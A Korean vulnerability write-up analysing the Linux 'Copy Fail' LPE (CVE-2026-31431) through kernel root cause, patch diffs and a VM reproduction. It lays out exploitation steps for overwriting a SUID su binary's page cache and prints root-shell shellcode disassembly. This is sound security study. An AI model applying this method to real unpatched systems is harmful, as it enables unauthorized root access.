CVE-2026-31431 (Copy Fail) 분석 — AF_ALG와 splice로 읽기 전용 파일 페이지 캐시를 덮어쓰는 로컬 권한 상승
AF_ALG 암호화 소켓과 splice()를 엮어 읽기 전용 파일의 페이지 캐시를 4바이트씩 덮어쓰고, SUID root 바이너리 su를 메모리에서 바꿔치기해 일반 사용자가 root가 되는 과정을 VirtualBox에서 직접 재현했다. 커널 Root Cause와 공식 패치(sg_chain 제거·rsgl_src→tsgl_src)까지 소스로 대조한다.
이 글은 공개된 CVE와 공식 PoC를 대상으로, 격리된 VirtualBox 가상머신에서 직접 재현한 실습 기록이다. 실제 운영 시스템을 대상으로 한 공격이 아니며, 재현에 사용한 커널은 패치 이전 빌드로 의도적으로 내린 것이다.
1. 취약점 개요
1.1 CVE-2026-31431: Copy Fail
CVE-2026-31431은 리눅스 커널의 AF_ALG 암호화 소켓 인터페이스에 존재하는 로컬 권한 상승(Local Privilege Escalation) 취약점이다. Theori의 Xint 팀이 발견해 2026년 4월 29일 "Copy Fail"이라는 이름으로 공개했다. 공개 자료 기준 CVSS v3.1 점수는 7.8 (High), 벡터는 로컬 공격·낮은 복잡도·낮은 권한 요구에 기밀성·무결성·가용성이 모두 완전 침해되는 전형적인 LPE 프로파일(AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)이다.
이 취약점의 특징은 메모리 손상이나 경쟁 조건(race)에 기대지 않는다는 점이다. 커널이 암호화 연산의 입력 버퍼와 출력 버퍼를 같은 스캐터리스트(scatterlist)로 공유하도록 설계된 오래된 최적화가 원인이며, 이 때문에 공격자가 splice()로 밀어넣은 읽기 전용 파일의 페이지 캐시 페이지가 쓰기 가능한 출력 버퍼에 그대로 포함된다. 여기에 authencesn 알고리즘이 암호 연산 중 수행하는 4바이트 임시 쓰기가 더해지면, 정상 출력 범위를 벗어난 위치 — 곧 읽기 전용 파일의 캐시된 페이지 — 에 공격자가 고른 4바이트가 기록된다.
이 쓰기를 반복하면 SUID root 실행 파일의 디스크 원본은 그대로 둔 채 메모리상 내용만 공격자의 ELF 페이로드로 바꿀 수 있다. 바뀐 바이너리를 실행하면 root 권한의 셸이 열린다. 재현 과정에서 /usr/bin/su를 대상으로 삼은 이유도 여기에 있다. 공개된 PoC는 전체 732바이트짜리 파이썬 스크립트 하나로 이 전 과정을 수행한다.
취약한 코드는 2017년에 도입되었으므로, 그 시점 이후부터 패치 전까지 빌드된 거의 모든 배포판 커널이 영향을 받는다. Dreamhack/Theori는 Dirty Pipe(CVE-2022-0847), Dirty COW(CVE-2016-5195) 계열과 함께 "페이지 캐시를 직접 변조하는" 부류로 이 취약점을 분류했고, 공개 직후 CISA KEV 목록에 등재되었다.
1.2 영향받는 제품 및 버전
Theori가 직접 검증한 환경은 다음과 같다. 아래 표는 연구팀의 테스트 매트릭스일 뿐, 영향받는 모든 커널의 목록은 아니다. 취약점 자체는 2017년 최적화 커밋 이후 패치 이전까지의 모든 빌드에 존재한다.
| 운영체제 | 테스트된 커널 |
|---|---|
| Ubuntu 24.04 LTS | 6.17.0-1007-aws |
| Amazon Linux 2023 | 6.18.8-9.213.amzn2023 |
| RHEL 10.1 | 6.12.0-124.45.1.el10_1 |
| SUSE 16 | 6.12.0-160000.9-default |
Theori는 Debian, Arch, Fedora, Rocky, Alma, Oracle 등도 동일하게 동작한다고 언급했으나, 위 표에 오른 네 개만 직접 확인한 결과다. 또한 Ubuntu 항목의 6.17.0-1007-aws는 AWS용 커널 플레이버로, 이 글 뒤에서 직접 구성하는 VirtualBox 환경의 일반(generic) 커널(6.8.0 계열)과는 빌드가 다르다. 커널 버전 숫자가 아니라 "2017년 커밋 ~ 2026년 패치" 사이의 소스에서 빌드되었는지가 취약 여부를 가른다.
2. 기술적 배경
2.1 페이지 캐시와 읽기 전용 파일
리눅스 커널은 디스크의 파일을 읽을 때 그 내용을 물리 메모리의 페이지 캐시에 올려두고, 이후의 접근은 디스크 대신 이 캐시에서 처리한다. 같은 파일을 여러 프로세스가 열면 이 캐시 페이지가 공유된다. execve()로 실행 파일을 띄울 때도 커널은 디스크를 매번 읽는 대신 페이지 캐시에 매핑된 코드 페이지를 실행에 사용한다.
여기서 중요한 전제가 하나 있다. 파일을 읽기 전용으로 열었다면, 그 파일의 페이지 캐시는 사용자 공간의 어떤 경로로도 변경되어서는 안 된다. 캐시 페이지가 수정되면 커널은 보통 해당 페이지에 dirty 플래그를 세워 디스크로 다시 써 내보내는데, 읽기 전용 열람에는 이 경로 자체가 없어야 한다. Copy Fail은 바로 이 불변식을 깬다. 그것도 파일 I/O가 아니라 암호화 소켓 경로를 통해서다. 게다가 변조된 페이지의 dirty 비트는 0으로 유지되므로 커널은 그 페이지를 디스크에 되쓰지 않는다. 디스크 원본과 메모리 내용이 갈라지는데, 디스크 기반 무결성 검사로는 이 괴리가 드러나지 않는다.
2.2 AF_ALG와 AEAD
AF_ALG는 사용자 공간이 커널의 암호화 서브시스템(Crypto API)을 소켓처럼 사용할 수 있게 해 주는 인터페이스다. socket(AF_ALG, SOCK_SEQPACKET, 0)으로 소켓을 만들고 bind()로 알고리즘 종류("aead", "skcipher", "hash" 등)와 이름을 지정하면, 이후 accept()로 얻은 연결 소켓에 평문/암호문을 보내고 결과를 받는 방식으로 커널 암호 연산을 호출한다. 권한이 없는 일반 사용자도 사용할 수 있다는 점이 공격 표면의 출발점이다.
이 사건의 핵심 알고리즘 타입은 AEAD(Authenticated Encryption with Associated Data)다. AEAD는 암호화와 함께 무결성 인증 태그를 생성·검증하고, 암호화하지 않지만 인증 범위에는 포함하는 데이터인 AAD(Additional Authenticated Data)를 함께 다룬다. PoC가 바인딩하는 알고리즘은 다음과 같다.
authencesn(hmac(sha256),cbc(aes))
authenc는 "암호화 후 인증(encrypt-then-auth 유형)" 조합을 만드는 템플릿으로, 여기서는 cbc(aes)로 암호화하고 hmac(sha256)으로 인증 태그를 만든다. 접미사 esn(Extended Sequence Number)이 붙은 authencesn은 IPsec ESP의 확장 시퀀스 번호를 처리하기 위한 변형이다. IPsec은 64비트 시퀀스 번호 중 상위 32비트(seqno_hi)는 패킷에 싣지 않고 양쪽이 각자 유지하지만, 인증 태그(ICV) 계산에는 포함해야 한다. 그래서 authencesn은 ICV를 계산하기 직전에 AAD 안의 바이트들을 잠시 재배치한다. 바로 이 "잠시 재배치"가 취약점의 방아쇠다. 데스크톱 환경에서 이 알고리즘을 직접 호출할 일은 거의 없지만, AF_ALG를 통하면 일반 사용자가 임의로 선택해 구동할 수 있다.
2.3 splice()와 스캐터리스트
splice()는 두 파일 디스크립터 사이에서 데이터를 복사 없이 옮기는 시스템 호출이다. 내부적으로는 데이터를 담은 페이지를 파이프로 참조만 넘긴다. 파일 → 파이프 방향으로 splice()를 호출하면, 그 파일의 페이지 캐시 페이지가 그대로 파이프 버퍼에 참조로 연결된다. 복사본이 아니라 원본 캐시 페이지라는 점이 결정적이다.
커널 암호 API는 입출력 데이터를 스캐터리스트로 표현한다. 스캐터리스트는 (페이지, 오프셋, 길이) 항목의 배열로, 물리적으로 흩어진 메모리 조각들을 하나의 논리적 버퍼처럼 다루게 해 준다. AF_ALG 소켓에 splice()로 데이터를 밀어넣으면, 커널은 파이프가 참조하던 페이지 캐시 페이지들을 이 소켓의 송신(TX) 스캐터리스트에 그대로 엮는다. 즉 공격자는 자신이 쓰기 권한이 없는 파일의 캐시 페이지를, 암호 연산의 입력 스캐터리스트 안으로 집어넣을 수 있다.
AEAD 연산은 입력(src)과 출력(dst) 두 스캐터리스트를 받는다. 두 스캐터리스트가 서로 다른 버퍼를 가리키면 out-of-place, 같은 버퍼를 가리키면 in-place 처리다. 정상적인 설계라면 splice()로 들어온 읽기 전용 페이지는 입력(src)에만 놓여야 하고, 출력(dst)에는 사용자가 결과를 받기 위해 제공한 별도의 쓰기 가능한 버퍼가 놓여야 한다.
2.4 정상적인 처리 과정
정상 흐름에서 AEAD 복호화는 다음과 같이 진행된다. 입력 스캐터리스트에는 AAD || 암호문 || 태그가 담기고, 커널은 이를 복호화해 출력 스캐터리스트에 AAD || 평문을 쓴다. 입력에 들어온 페이지가 읽기 전용 파일의 캐시라면, 그 페이지는 어디까지나 읽기만 되고 출력은 전혀 다른 버퍼에 기록되어야 한다. 이렇게 입력과 출력이 분리되어 있는 한, 파일의 페이지 캐시는 암호 연산 때문에 변경될 수 없다.
Copy Fail은 이 분리가 깨진 상태에서 발생한다. 아래 3장에서 보듯, 특정 커밋 이후 algif_aead는 입력과 출력을 같은 스캐터리스트로 공유(in-place)하도록 바뀌었고, 그 결과 입력으로 들어온 읽기 전용 페이지가 동시에 쓰기 대상이 되어 버린다.
3. 취약점 원인 분석
3.1 발생 배경: 2017년 in-place 최적화
문제의 뿌리는 2017년 커밋 72548b093ee3("crypto: algif_aead - copy AAD from src to dst")이다. 이 변경은 algif_aead의 복호화 경로를 in-place로 전환했다. 그 전(2015년 AEAD 인터페이스 전환 커밋 104880a6b470)까지는 출력 버퍼(RX 스캐터리스트)를 입력과 별개로 두는 out-of-place 방식이었다.
in-place 전환 후의 복호화 경로는 대략 이렇게 동작했다. 사용자가 splice() 등으로 보낸 송신(TX) 스캐터리스트에서 AAD와 암호문을 수신(RX) 버퍼로 복사한 다음, 태그가 놓인 페이지들은 복사하지 않고 sg_chain()으로 RX 스캐터리스트 뒤에 그대로 이어 붙였다. 그리고 req->src = req->dst로 두어 하나의 스캐터리스트를 입력이자 출력으로 썼다. 당시 관점에서는 불필요한 복사를 줄이는 합리적인 최적화였다.
문제는 이 "이어 붙인 태그 페이지"가 splice()로 들어온 파일의 페이지 캐시 페이지라는 데 있다. out-of-place 시절에는 이 페이지가 읽기 전용 src에만 있었기 때문에 악용할 수 없었지만, in-place로 바뀌면서 동일한 페이지가 쓰기 가능한 dst의 일부가 되었다.
3.2 취약점 발생 지점
문제는 두 계층이 맞물려 터진다.
crypto/algif_aead.c— 입력과 출력 스캐터리스트를 공유(in-place)하게 만든 계층.splice()로 들어온 파일 페이지 캐시가 쓰기 가능한dst에 포함되는 근본 조건을 만든다.crypto/authencesn.c— 공유된dst에 실제로 범위를 벗어난 4바이트를 기록하는 쓰기 주체.crypto/af_alg.c—af_alg_pull_tsgl()/af_alg_count_tsgl()등 TX 스캐터리스트의 페이지를 꺼내 연산용 스캐터리스트로 옮기는 보조 계층.
Xint의 코드 분석에 따르면, 실제 범위 밖 쓰기는 authencesn의 복호화 함수 crypto_authenc_esn_decrypt()에서 일어난다. 이 함수는 ESN 특유의 ICV 계산을 위해 AAD 영역을 스크래치 공간처럼 재배치하는데, 그 과정에서 scatterwalk_map_and_copy()로 목적지(dst) 스캐터리스트에 바이트를 되쓴다. 세 번의 복사 중 마지막이 핵심이다. 개념적으로는 다음과 같다.
/* crypto_authenc_esn_decrypt() 내부 (Xint 분석 기준, 개념 재구성) */
scatterwalk_map_and_copy(tmp, dst, 0, 8, 0); /* AAD 앞부분을 읽어둠 */
scatterwalk_map_and_copy(tmp, dst, 4, 4, 1); /* AAD 내부에서 4바이트 재배치 */
scatterwalk_map_and_copy(tmp + 1, dst, assoclen + cryptlen, 4, 1); /* 태그 뒤 위치에 4바이트 쓰기 */
앞의 두 복사는 AAD 영역 안에서만 바이트를 섞고 나중에 복원된다. 문제는 세 번째 복사다. 오프셋 assoclen + cryptlen은 정상 출력(평문) 영역의 바깥, 곧 태그가 놓였던 자리를 가리키고, in-place 공유 때문에 그 자리는 splice()로 들어온 파일 페이지 캐시 페이지다. scatterwalk_map_and_copy()는 그 페이지를 kmap_local_page()로 매핑한 뒤 4바이트를 기록한다. 결과적으로 읽기 전용 파일의 캐시된 사본에 공격자가 고른 값이 쓰인다.
3.3 근본 원인
여러 조각을 하나의 인과로 연결하면 이렇다.
- 입력·출력 스캐터리스트 공유.
algif_aead가 복호화를 in-place로 처리하면서req->src와req->dst가 같은 스캐터리스트를 가리킨다. - 페이지 캐시가 쓰기 가능한 출력에 포함.
splice()로 들어온 읽기 전용 파일의 캐시 페이지(특히 "태그" 위치의 페이지)가 복사되지 않고sg_chain()으로 공유 스캐터리스트에 연결된다. 입력에만 있어야 할 페이지가 출력의 일부가 된다. - authencesn의 범위 밖 임시 쓰기.
crypto_authenc_esn_decrypt()가 ESN 시퀀스 바이트(seqno_lo, 4바이트)를 재배치하면서assoclen + cryptlen오프셋에 4바이트를 되쓴다. 이 값과 오프셋은 모두 공격자가sendmsg()의 AAD와splice()의 길이·오프셋으로 조절한다. - 정상 출력을 벗어난 쓰기. 그 오프셋은 평문 출력 범위 밖이자, 하필 파일 페이지 캐시가 놓인 자리다.
- 읽기 전용 파일 캐시 변조. 결과적으로 사용자가 쓰기 권한이 없는 파일의 메모리 내용이 4바이트 단위로 바뀐다.
- 인증 실패가 쓰기를 되돌리지 못함. AEAD 복호화는 조작된 암호문에 대한 HMAC 검증에 실패하고
recvmsg()는 오류를 반환하지만, 그 4바이트 쓰기는 검증 이전에 이미 일어난 뒤다.authencesn은 이 위치를 성공/실패와 무관한 "버려도 되는 스크래치"로 취급하며, 복원 담당 함수(crypto_authenc_esn_decrypt_tail())도 AAD는 되돌리지만assoclen + cryptlen위치의 원본 바이트는 복구하지 않는다.
즉 이 취약점은 단순한 "메모리 관리 실수"가 아니라, 신뢰 경계가 다른 두 버퍼(공격자가 읽기만 할 수 있는 파일 캐시 vs. 커널이 자유롭게 쓸 수 있는 연산 스크래치)를 같은 스캐터리스트로 합쳐 버린 구조적 결함이다. 암호 연산 로직(authencesn)은 자기 출력 버퍼를 마음대로 써도 된다고 가정했고, algif_aead는 그 출력 버퍼에 남의 읽기 전용 페이지를 집어넣었다. 어느 한쪽만 보면 각자 타당하지만, 둘을 겹치는 순간 권한 경계가 무너진다.
3.4 수정 전후 비교
공식 수정은 2026년 메인라인 커밋 a664bf3d603d("crypto: algif_aead - Revert to operating out-of-place")다. 작성·커밋은 Herbert Xu, 제보자 트레일러는 Reported-by: Taeyang Lee <0wn@theori.io>로 기록되어 있다. 변경 규모는 4개 파일, +34 −126으로, 2017년 in-place 최적화를 사실상 되돌린다(단, AAD 복사만은 남긴다). crypto/algif_aead.c에서 실제 취약점을 차단하는 변경은 크게 두 가지다. 하나는 파일 페이지를 출력에 이어 붙이던 sg_chain() 경로를 통째로 걷어낸 것이고, 다른 하나는 암호 요청의 입력을 출력과 같은 RX 스캐터리스트(rsgl_src)에서 별도의 TX 스캐터리스트(tsgl_src)로 바꾼 것이다.
첫 번째 변경 — sg_chain()으로 태그 페이지를 출력에 잇는 경로 제거. 수정 전 복호화 경로에는 수신(RX) 스캐터리스트가 있을 때 그 끝에 송신(TX) 측 페이지를 이어 붙이는 분기가 있었다. 아래가 패치에서 삭제된 블록이다.
/* 수정 전: 삭제된 in-place 체이닝 (crypto/algif_aead.c) */
if (usedpages) {
/* RX SGL present */
struct af_alg_sgl *sgl_prev = &areq->last_rsgl->sgl;
struct scatterlist *sg = sgl_prev->sgt.sgl;
sg_unmark_end(sg + sgl_prev->sgt.nents - 1);
sg_chain(sg, sgl_prev->sgt.nents + 1, areq->tsgl);
} else
/* no RX SGL present (e.g. authentication only) */
rsgl_src = areq->tsgl;
sg_chain(sg, sgl_prev->sgt.nents + 1, areq->tsgl)가 바로 문제의 한 줄이다. areq->tsgl은 splice()로 들어온 파일 페이지 캐시 페이지를 담은 TX 스캐터리스트인데, 이 호출이 그 리스트를 RX 스캐터리스트(출력) 꼬리에 연결했다. 그 결과 "태그" 위치의 파일 캐시 페이지가 쓰기 가능한 출력의 일부가 되었고, authencesn의 assoclen + cryptlen 쓰기가 떨어질 자리를 만들었다. 패치는 이 분기 전체를 제거해, 파일 페이지가 출력 스캐터리스트로 흘러드는 통로 자체를 없앴다.

crypto/algif_aead.c에서 삭제된 sg_chain() 기반 in-place 체이닝 블록(238~248행, 전부 삭제)두 번째 변경 — aead_request_set_crypt()의 입력을 rsgl_src에서 tsgl_src로 전환. 체이닝을 없앤 뒤, 암호 요청을 구성할 때 입력으로 넘기는 스캐터리스트를 바꾼다. 수정 전에는 입력(src)과 출력(dst)에 모두 RX 계열 스캐터리스트를 넘겨 in-place로 동작했지만, 수정 후에는 입력에 별도의 TX 스캐터리스트를 넘겨 out-of-place로 돌린다.
/* 수정 전: src가 RX 계열 → src와 dst가 같은 영역 (in-place) */
aead_request_set_crypt(&areq->cra_u.aead_req, rsgl_src,
areq->first_rsgl.sgl.sgt.sgl, used, ctx->iv);
/* 수정 후: src가 TX 스캐터리스트 → src와 dst 분리 (out-of-place) */
aead_request_set_crypt(&areq->cra_u.aead_req, tsgl_src,
areq->first_rsgl.sgl.sgt.sgl, used, ctx->iv);
aead_request_set_crypt(req, src, dst, cryptlen, iv)에서 두 번째 인자가 입력, 세 번째가 출력이다. 세 번째 인자 areq->first_rsgl.sgl.sgt.sgl(사용자 소유의 RX 출력 버퍼)은 그대로 두고, 두 번째 인자만 rsgl_src → tsgl_src로 바꾼 것이 핵심이다. 이제 입력은 splice()로 들어온 파일 페이지를 담은 TX 스캐터리스트를 가리키고, 출력은 사용자 버퍼를 가리킨다. 둘이 서로 다른 메모리이므로, authencesn이 출력 버퍼 범위 밖에 4바이트를 쓰더라도 그 대상은 사용자 자신의 RX 버퍼일 뿐 남의 파일 캐시가 아니다.
aead_request_set_crypt() 입력 인자가 rsgl_src(삭제)에서 tsgl_src(추가)로 바뀐 diff두 변경을 받쳐 주는 보조 로직은 이렇다. 수정 후 경로는 af_alg_count_tsgl()로 요청 크기를 재고 af_alg_pull_tsgl()로 TX 페이지를 별도의 요청 전용 스캐터리스트(tsgl_src)로 옮긴 다음, memcpy_sglist(rsgl_src, tsgl_src, ctx->aead_assoclen)로 AAD만 출력으로 복사한다. 이로써 splice()로 들어온 파일의 페이지 캐시 페이지는 다시 읽기 전용 src에만 남고, 쓰기 가능한 dst에는 결코 포함되지 않는다.
보조 계층도 함께 손본다. af_alg_count_tsgl()과 af_alg_pull_tsgl()은 더 이상 offset/dst_offset 인자를 받지 않고, 페이지를 오프셋 건너뛰기 없이 한 번에 목적지로 재할당한다. 커밋 메시지는 "소스와 목적지가 서로 다른 매핑에서 오므로 algif_aead에서 in-place로 동작할 이점이 없다"고 밝히고 있다. 주목할 점은 수정이 crypto/authencesn.c를 전혀 건드리지 않는다는 것이다. 버그의 방아쇠는 authencesn의 쓰기였지만, 근본 결함은 그 쓰기에 남의 페이지를 노출한 AF_ALG 계층에 있었다.
4. 취약점 악용 원리
4.1 공격 전제 조건
- 일반 사용자 권한. 공격 자체는 root가 필요 없다. PoC는 UID 1000에서 실행되어 root가 된다.
- 패치 이전의 취약한 커널. 2017년 커밋 이후 ~ 2026년 패치 이전에 빌드된 커널.
algif_aead모듈의 사용 가능 여부.AF_ALGAEAD 소켓을 열려면algif_aead(와af_alg)가 적재되어 있거나, 소켓 생성 시 자동 적재(autoload)될 수 있어야 한다. 이 조건이 공격 성립의 실질적 관문이다(§7.2에서 상술).- 읽기 가능한 SUID root 바이너리.
/usr/bin/su처럼 일반 사용자가 읽을 수 있고 root로 실행되는 파일. 페이지 캐시를 덮어쓴 뒤 이를 실행해 권한을 얻는다. - 완화책 미적용.
install algif_aead /bin/false같은 적재 차단이나 seccomp로AF_ALG를 막아두지 않은 상태.
4.2 공격 시나리오
대상은 /usr/bin/su다. 정상적인 su는 SUID root 바이너리로서, 호출자의 자격 증명을 확인한 뒤 대상 사용자(기본 root)의 권한으로 셸을 띄운다. 올바른 암호를 모르면 권한 전환은 거부된다.
PoC는 su의 인증 로직을 통과하지 않는다. 대신 su가 메모리에 올라온 코드 페이지 자체를 바꾼다. 페이지 캐시에 올라온 su의 실행 이미지를, root 셸을 띄우는 자작 ELF로 덮어쓴 다음 su를 실행한다. 이때 커널은 (dirty가 아닌) 변조된 캐시 페이지를 그대로 매핑해 실행하므로, 암호 확인 로직은 애초에 실행되지 않고 공격자의 코드가 su의 euid=0 맥락에서 돈다.
4.3 악용 과정
/usr/bin/su를 읽기 전용으로 연다. 쓰기 권한은 필요 없다.splice()로 이 파일의 페이지를 파이프를 거쳐AF_ALGAEAD 소켓의 처리 경로로 밀어넣는다. 파일의 캐시 페이지가 복사 없이 연산용 스캐터리스트에 참조로 엮인다.- in-place로 공유된 출력 스캐터리스트와
authencesn의 범위 밖 쓰기를 이용한다. AAD·IV·연산 종류를 담은sendmsg()를 보내 복호화를 유발한다. authencesn이assoclen + cryptlen위치에 4바이트를 쓰면서, 그 자리에 해당하는 파일 캐시 오프셋에 공격자가 고른 4바이트가 기록된다. 어느 파일·어느 오프셋·어떤 값인지는 모두 공격자가 조절한다.- 오프셋을 옮겨 가며 4바이트씩 반복해,
su의 페이지 캐시 전체(160바이트 ELF)를 페이로드로 교체한다. - 변조된
su를 실행한다. root 셸이 열린다.
각 단계가 맞물리는 지점이 중요하다. splice()는 "남의 읽기 전용 페이지를 연산 버퍼에 넣는" 수단이고, in-place 공유는 "그 페이지를 쓰기 대상으로 만드는" 조건이며, authencesn의 4바이트 쓰기는 "실제로 값을 박는" 프리미티브다. 인증 실패는 이 쓰기를 되돌리지 못하므로, 실패를 신경 쓸 필요 없이 원하는 바이트를 계속 심을 수 있다.
4.4 SUID와 권한 상승
SUID 비트가 설정된 실행 파일은, 실행될 때 프로세스의 유효 사용자 ID(euid)를 호출자가 아니라 파일 소유자의 것으로 설정한다. /usr/bin/su는 소유자가 root이고 SUID가 걸려 있으므로(-rwsr-xr-x root root), 누가 실행하든 euid=0으로 돈다. 정상적인 su는 이 권한으로 인증을 수행한 뒤에야 셸을 넘긴다.
변조된 su의 페이로드는 인증을 건너뛰고 곧장 다음을 실행한다. 재현에 쓰인 160바이트 ELF를 디스어셈블하면 동작이 분명하다.
xor eax, eax
xor edi, edi
mov al, 0x69 ; syscall 105 = setuid
syscall ; setuid(0)
lea rdi, [rip + 0xf] ; "/bin/sh"
xor esi, esi ; argv = NULL
push 0x3b ; pop rax ; syscall 59 = execve
cdq ; rdx = 0 (envp = NULL)
syscall ; execve("/bin/sh", NULL, NULL)
xor edi, edi
push 0x3c ; pop rax ; syscall 60 = exit
syscall ; exit(0)
; "/bin/sh\0"
setuid(0)은 호출 프로세스의 euid가 0일 때 실·유효·저장 UID를 모두 0으로 만든다. su가 SUID root라 euid=0이므로, 이 호출로 실제 UID까지 root가 된다. 이어서 execve("/bin/sh", ...)로 root 셸을 띄운다.
여기서 재현 결과의 한 가지 특징이 설명된다. 페이로드는 setuid(0)만 호출하고 그룹 ID는 건드리지 않는다. 그래서 실행 후 id를 보면 uid=0(root)이지만 gid는 원래 사용자 그룹(gid=1000(user)) 그대로 남는다. 정상 su라면 그룹까지 전환했겠지만, 이 페이로드는 UID 상승만으로 충분하므로 GID는 바꾸지 않는다.
5. 취약점 재현 및 검증
5.1 실습 환경
| 항목 | 값 |
|---|---|
| 호스트 OS | Windows 11 |
| 가상화 | Oracle VirtualBox |
| 게스트 OS | Ubuntu 24.04.1 LTS Server |
| 초기 커널 | 6.8.0-149-generic (배포판 현재 빌드, 패치 반영으로 판단) |
| 재현 커널 | 6.8.0-111-generic (패치 이전 빌드) |
| Python | 3.12.3 |
| PoC | Theori 공식 copy_fail_exp.py (732바이트) |
| 실습 계정 | 일반 사용자, UID 1000 |
목표는 분명하다. 일반 사용자 계정에서 공식 PoC만으로 root 권한을 얻을 수 있는지 확인한다. VirtualBox VM 자체는 Ubuntu 프로파일로 생성했고(아래 그림 6), 실제로 구동되는 시스템은 커널 6.8.0 계열의 Ubuntu 24.04.1 LTS다.
가장 먼저 계정과 커널, 인터프리터 버전을 확인했다.
user@CVE-2026-31431:~$ uname -r
6.8.0-149-generic
user@CVE-2026-31431:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
user@CVE-2026-31431:~$ python3 --version
Python 3.12.3
user@CVE-2026-31431:~$ ls -l /usr/bin/sh
lrwxrwxrwx 1 root root 4 Mar 31 2024 /usr/bin/sh -> dash

대상 바이너리인 /usr/bin/su가 SUID root인지 확인한다. 소유자 root, 퍼미션에 s 비트가 보인다.
user@CVE-2026-31431:~$ ls -l /usr/bin/su
-rwsr-xr-x 1 root root 55680 Aug 19 16:47 /usr/bin/su

/usr/bin/su의 SUID root 비트(-rwsr-xr-x)5.2 재현 환경 구성
이 실습의 관건은 패치 이전의 취약한 커널을 얻는 것이다. 배포판의 현재 커널(6.8.0-149-generic)은 이미 보안 업데이트로 수정이 백포트된 빌드로 보인다. 그래서 그보다 앞선, 패치 이전 빌드인 6.8.0-111-generic을 재현용으로 추가 설치하고 그 커널로 부팅했다. 설치된 커널 이미지와 /boot의 심볼릭 링크를 먼저 점검했다.
user@CVE-2026-31431:~$ dpkg -l | grep linux-image
ii linux-image-6.8.0-149-generic 6.8.0-149.149 amd64 Signed kernel image generic
ii linux-image-generic 6.8.0-149.149 amd64 Generic Linux kernel image
user@CVE-2026-31431:~$ ls -l /boot/vmlinuz*
lrwxrwxrwx 1 root root 25 Nov 17 07:40 /boot/vmlinuz -> vmlinuz-6.8.0-149-generic
-rw------- 1 root root 15108488 Oct 23 12:13 /boot/vmlinuz-6.8.0-149-generic
lrwxrwxrwx 1 root root 25 Nov 17 07:40 /boot/vmlinuz.old -> vmlinuz-6.8.0-149-generic

/boot 심볼릭 링크실습은 스냅샷 복원이 쉬운 VirtualBox 가상머신에서 진행했다. VM은 메모리 2048MB, 디스크 25GB 단일 VDI로 구성한 격리 환경이다.

그림 6의 VM 프로파일에는 운영체제가 Ubuntu 24.10 (Oracular Oriole)으로 표시되는데, 이는 VM을 만들 때 고른 VirtualBox의 OS 종류 설정값일 뿐 실제 게스트와는 별개다. 구동되는 시스템은 커널 6.8.0 계열의 Ubuntu 24.04.1 LTS이며, 로그인 시 다음 LTS인 26.04.1 LTS 업그레이드 안내가 뜨는 점(그림 7)도 이를 뒷받침한다. 24.10이라면 커널이 6.11 계열이어야 한다.
작업 편의를 위해 호스트(Windows)에서 포트 포워딩(2222→22)으로 SSH 접속을 열었다. 게스트의 ssh.service가 비활성 상태라 openssh-server를 확인하고 서비스를 활성화한 뒤 접속했다.
user@CVE-2026-31431:~$ sudo systemctl status ssh
○ ssh.service - OpenBSD Secure Shell server
Loaded: loaded (/usr/lib/systemd/system/ssh.service; disabled; preset: enabled)
Active: inactive (dead)
user@CVE-2026-31431:~$ sudo apt install openssh-server -y
openssh-server is already the newest version (1:9.6p1-3ubuntu13.20).
user@CVE-2026-31431:~$ sudo systemctl enable --now ssh
Created symlink /etc/systemd/system/sshd.service → /usr/lib/systemd/system/ssh.service.
PS C:\Users\dnrgu> ssh -p 2222 user@127.0.0.1
